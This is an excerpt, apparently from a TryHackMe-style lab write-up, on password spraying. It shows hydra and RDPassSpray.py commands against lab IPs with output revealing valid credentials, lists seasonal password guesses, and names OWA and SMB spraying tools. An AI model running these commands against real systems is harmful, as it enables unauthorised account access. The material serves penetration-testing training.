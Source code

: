 If a password complexity policy is enforced within the organization, we may need to create a password that includes symbols to fulfill the requirement, such as `October2021!`, `Spring2021!`, `October2021@`, etc. To be successful in the password spraying attack, we need to enumerate the target and create a list of valid usernames (or email addresses list).
- SSH
  ```
  user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
  [INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
  [22][ssh] host: 10.1.1.10 login: victim password: Spring2021
  [STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
  1 of 1 target successfully completed, 1 valid password found
  ```
  `L` is to load the list of valid usernames, and `-p` uses the `Spring2021` password against the SSH service at `10.1.1.10`.

- RDP
  ```
  user@THM:~# python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
  [13-02-2021 16:47] - Total number of users to test: 1
  [13-02-2021 16:47] - Total number of password to test: 1
  [13-02-2021 16:47] - Total number of attempts: 1
  [13-02-2021 16:47] - [*] Started running at: 13-02-2021 16:47:40
  [13-02-2021 16:47] - [+] Cred successful (maybe even Admin access!): victim :: Spring2021!
  ```

- Outlook web access (OWA) portal
  - [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) (atomizer.py)
  - [MailSniper](https://github.com/dafthack/MailSniper)

- SMB
  - Tool: Metasploit (auxiliary/scanner/smb/smb_login)  

However, it is often better to script up these types of attacks yourself, which allows you more control over the process.  A base python script has been provided in the task files that can be used for the password spraying attack.   

<details><summary>ntlm_passwordspray.py</summary></details>